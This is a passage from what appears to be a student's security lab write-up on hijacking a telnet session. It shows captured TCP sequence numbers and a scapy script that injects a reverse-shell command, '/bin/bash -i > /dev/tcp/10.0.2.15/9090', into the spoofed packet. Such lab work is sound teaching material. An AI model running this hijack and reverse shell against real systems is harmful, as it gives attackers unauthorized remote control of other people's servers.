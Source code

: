 **Note**: After a successful attack, the user terminal freezes in the session.

## Task 5

Similar to [Task 4](#task-4), except that the payload should be

```
\r /bin/bash -i > dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r
```
to create a reversed shell from the server to the attacker.

So repeat the steps in previously task, to simplify, I just demonstrate with `scapy`:

As above, capture the last `telnet` packet from the user to the server using Wireshark:

> Transmission Control Protocol, Src Port: 57654, Dst Port: 23, Seq: 1265743785, Ack: 4268626928, Len: 2
>     **Source Port: 57654**
>     Destination Port: 23
>     [Stream index: 12]
>     [TCP Segment Len: 2]
>     Sequence number: 1265743785
>     **[Next sequence number: 1265743787]**
>     **Acknowledgment number: 4268626928**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 229
>     [Calculated window size: 29312]
>     [Window size scaling factor: 128]
>     Checksum: 0x965f [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]



Use Python script to spoof the packet:


```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.0.2.4")
TCPLayer = TCP(sport=57654, dport=23, flags="A",
               seq=1265743787, ack=4268626928)
Data = "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

Finally, the reverse shell is created successfully:
